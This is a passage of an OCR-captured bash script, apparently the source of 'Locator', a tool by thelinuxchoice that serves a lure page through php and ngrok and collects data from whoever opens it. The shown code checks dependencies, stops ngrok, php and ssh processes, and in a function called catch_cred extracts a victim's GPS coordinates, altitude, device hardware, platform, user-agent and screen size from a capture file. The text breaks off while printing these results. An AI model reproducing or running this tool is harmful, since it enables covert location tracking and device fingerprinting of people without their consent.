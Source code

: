 #!/bin/bash
# Locator v1.0
# Coded by: thelinuxchoice (You dont become a coder by just changing the credits)
# Github: https://github.com/thelinuxchoice/locator

trap 'printf "\n";stop;exit 1' 2


dependencies() {

command -v php > /dev/null 2>&1 || { echo >&2 "I require php but it's not installed. Install it. Aborting."; exit 1; }



command -v curl > /dev/null 2>&1 || { echo >&2 "I require curl but it's not installed. Install it. Aborting."; exit 1; }

}


stop() {

checkngrok=$(ps aux | grep -o "ngrok" | head -n1)
checkphp=$(ps aux | grep -o "php" | head -n1)
checkssh=$(ps aux | grep -o "ssh" | head -n1)
if [[ $checkngrok == *'ngrok'* ]]; then
pkill -f -2 ngrok > /dev/null 2>&1
killall -2 ngrok > /dev/null 2>&1
fi
if [[ $checkphp == *'php'* ]]; then
pkill -f -2 php > /dev/null 2>&1
killall -2 php > /dev/null 2>&1
fi
if [[ $checkssh == *'ssh'* ]]; then
pkill -f -2 ssh > /dev/null 2>&1
killall ssh > /dev/null 2>&1
fi
if [[ -e sendlink ]]; then
rm -rf sendlink
fi



}




catch_cred() {

longitude=$(grep -o 'Longitude:.*' server/geolocate.txt | cut -d " " -f2 | tr -d ' ')
IFS=$'\n'
latitude=$(grep -o 'Latitude:.*' server/geolocate.txt | cut -d ":" -f2 | tr -d ' ')
altitude=$(grep -o 'Altitude:.*' server/geolocate.txt | cut -d ":" -f2 | tr -d ' ')
accuracy=$(grep -o 'Accuracy:.*' server/geolocate.txt | cut -d ":" -f2 | tr -d ' ')
hardware=$(grep -o 'Cores:.*' server/geolocate.txt | cut -d ":" -f2 | tr -d ' ')
speed=$(grep -o 'Speed:.*' server/geolocate.txt | cut -d ":" -f2 | tr -d ' ')
platform=$(grep -o 'Platform:.*' server/geolocate.txt | cut -d ":" -f2 | tr -d ' ')
heading=$(grep -o 'Heading:.*' server/geolocate.txt | cut -d ":" -f2 | tr -d ' ')
memory=$(grep -o 'Memory:.*' server/geolocate.txt | cut -d ":" -f2 | tr -d ' ')
useragent=$(grep -o 'User-Agent:.*' server/geolocate.txt | cut -d ":" -f2 | tr -d ' ')
height=$(grep -o 'Screen Height:.*' server/geolocate.txt | cut -d ":" -f2 | tr -d ' ')
width=$(grep -o 'Screen Width:.*' server/geolocate.txt | cut -d ":" -f2 | tr -d ' ')
printf "\n"
printf "\e[1;92m[\e[0m\e[1;77m:::\e[0m\e[1;92m]\e[0m\e[1;93m Geolocation:\n"